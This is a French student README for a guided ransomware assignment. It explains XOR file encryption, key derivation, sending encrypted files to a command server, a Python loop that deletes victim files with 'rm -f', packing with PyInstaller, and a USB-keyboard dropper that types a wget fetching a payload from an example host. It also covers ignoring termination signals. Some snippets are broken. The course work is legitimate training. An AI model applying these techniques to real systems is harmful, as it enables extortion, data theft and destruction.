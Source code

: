 # Antoine Goulin - TP Ransomware

## Introduction

Ce devoir consiste en l'élaboration guidée d'un ransomware (programme malveillant chiffrant les fichiers d'un système, voire pire, demandant une rançon aux victimes contre la restauration de leurs données) Les fonctionnalités seront détaillées dans les paragraphes suivants. S'y ajouteront des notes complémentaires sur ce que j'aurais voulu ajouter, en eus-je pris le temps plus tôt. 
À l'instar des commentaires présents dans les autres documents de ce dépôt, tous on été écrits en anglais par souci d'homogénéité et de cohérence.

## Corps du ransomware

### Chiffrement

**Q1** : L'algorithme est le chiffrement XOR. Il est peu robuste car les bits de sa clé sont répétés de manière cyclique. Cependant, même sans une clé cyclique, l'opération mathématique du XOR est extrêmement simple donc il est possible de trouver la clé de chiffrement si l'on dispose d'un fichier clair et de sa version chiffrée (ce que des backups permettent inmanquablement).
Il serait plus efficace d'utiliser un chiffrement robuste, comme les variantes de l'AES pour s'assurer que personne ne puisse retrouver ses données sans notre intervention mais je ne suis pas allé jusque là dans les démarches détaillées dans [bonus chiffrement](#amélioration-du-chiffrement)

**Q2** : Utiliser un HMAC permettrait de s'assurer qu'un message est authentique mais ne suffirait pas à garantir la sécurité du chiffrement du fichier (sans compter la non-robustesse du XOR). Hacher la clé et le sel ensemble brouillerait beaucoup moins la clé dans le token généré. De plus, la clé de chiffrement n'étant pas stockée dans l'ordinateur de la victime, il serait difficile de s'assurer que la clé saisie par cette dernière est authentique (à moins bien sûr de la récupérer depuis le CNC, la rendant interceptible pendant l'échange). Ainsi, il est préférable de dériver la clé et le sel pour que le lien token-clé soit plus difficile à établir pour la vicitme (qui connaît déjà potentiellement le token et le sel)

### Setup

**Q3** : Il est préférable de vérifier qu'un token n'est pas déjà sauvegardé pour ne pas le remplacer par un autre token, ce qui aurait pour effet de rendre le déchiffrement impossible (impossible d'associer la clé saisie par l'utilisateur à un jeton authentique).

### Vérification de l'authenticité de la clé

**Q4** : pour vérifier que la clé est bonne, il suffit de calculer un token candidat en dérivant la clé saisie et le sel authentique puis de comparer ce jeton au jeton authentique. Si les deux jetons sont les mêmes, alors la clé saisie est correcte. 

## Bonus

### Vol de fichiers

**B1** : Pour voler les fichiers, on peut lire les données de chaque fichier chiffré, les convertir en base 64 et les récupérer sur le CNC. De plus amples explications sont données dans les commentaires du code de la fonction leak_files. J'ai décidé de transmettre les données dans un JSON mais il est possible de les envoyer octet par octet dans un flux continu pour chaque fichier.
J'ai fait le choix d'envoyer les fichiers après leur chiffrement puisque le serveur CNC dispose de tous les éléments nécessaires pour les déchiffrer. D'autant plus que les données envoyées en clair seraient perceptibles dans l'absolu (bien que la victime n'en aie pas le temps dans notre situation).
Enfin, en ajoutant les lignes suivantes, il serait simple de supprimer les fichers de la victime de son ordinateur, en espérant qu'elle n'ait pas fait de sauvegarde intégrale de son ordinateur. 
```py
# soit files_to_encrypt la liste des fichiers trouvés par le ransomware, à chiffrer
for file_to_delete in files_to_encrypt:
    os.system(f"rm -f {file_to_delete}")
```

Il me semble pertinent de préciser que pendant mes test, j'ai remarqué que les fichiers provenant du répertoire `/etc` étaient protégés, même pour l'utilisateur root (du moins avec les scripts que j'ai écrits), ce que montrait mon incapacité à chiffrer `/etc/X11/rgb.txt`.

### Amélioration du chiffrement

**B2** : La clé utilisée pour le XOR étant cyclique, il est possible de connaître la clé en compaprant un fichier sain avec un fichier chiffré. 
Donnée ^ Clé = Chiffré ; Chiffré ^ Clé = Donnée
Data ^ Chiffré = Clé
Ainsi, un script permettant de trouver la clé du chiffrement serait aussi simple que :
```py
with open(clear_file as c):
    clear_data = c.read()
with open(encrypted_data as e):
    encrypted_data = e.read()
key = clear_data ^ encrypted_data

logging.info(key)
```

**B3** : La bibliothèque cryptography nous offre d'autres options de chiffrement. La plus simple et sécurisée d'entre elles (pour un développeur junior comme nous) est le module Fernet, qui permet de chiffrer symétriquement et retourne un token unique permettant de vérifier l'authenticité du message.
Malgré leur plus grande sensibilité, il est également possible d'utiliser les fonctions comme AESxxx de cryptography.hazmat pour un contrôle plus fin des paramètres cryptographiques.

### Packer

**B4** : avec PyInstaller, il faut utiliser la commande `pyinstaller source/ransomware.py --onefile` depuis notre ordinateur ou `pyinsatller root/ransomware/ransomware.py --onefile` depuis le container (ce que je devais faire pour des raisons de compatibilité, _I use Arch, btw..._)

**B5** : le binaire créé se trouve dans dist/, monté dans root/bin dans le container

### Dropper

Je n'ai pas pris le temps de travailler sur un dropper depuis le CNC mais je souhaite mentionner un usage différent. Il peut être intéressant de songer à l'utilisation d'un _Rubber Ducky_ pour déposer le ransomware sur l'ordinateur d'une victime au sein d'une entreprise. Bien que dans notre cas, cette solution puisse surtout servir à la première entrée dans le système d'une grande structure, nous servant ensuite de levier pour nous infiltrer numériquement, la simplicité d'une clé USB malveillante que l'un des employés trouverait sur le pare-brise de sa voiture ou à un autre endroit inattendu serait dévastatrice.

Pour tester ce genre de méthode, il est possible de se servir de la clé Digispark (ATtiny85 embarqué sur une clé USB), capable de se faire passer pour un clavier et de saisir les touches suffisantes pour ouvrir un terminal et y inscrire `wget https://bonpetitmalware.com/ransomwarepaspiquedeshannetons` en moins de trente secondes.

### Messages de pression

#### Bloquer le terminal

J'aimerais noter ici que, pour bloquer le terminal, il faut au moins capturer les signaux `SIGINT` (interruption précipitée d'un service en cours d'éxecution, déclenchée par la combinaison Ctrl + C) et `SIGTERM` (indication au programme qu'il doit s'arrêter) et indiquer au malware de les ignorer (ce qui se fait au tout début du programme). Il est impossible d'ignorer le signal `SIGKILL`, dont l'effet est d'arrêter un programme de force. Cependant, cela ne suffit pas à ignorer le Ctrl + D, qui abrège l'exécution du programme en lui indiquant qu'il a atteint la dernière ligne de son script. Pour pallier ce problème, il est possible de traiter l'exception du `EOFError` avec un try/except et d'indiquer que si l'exception se produit, on relance la fonction en cours (dans une boucle while par exemple - avec l'instruction continue).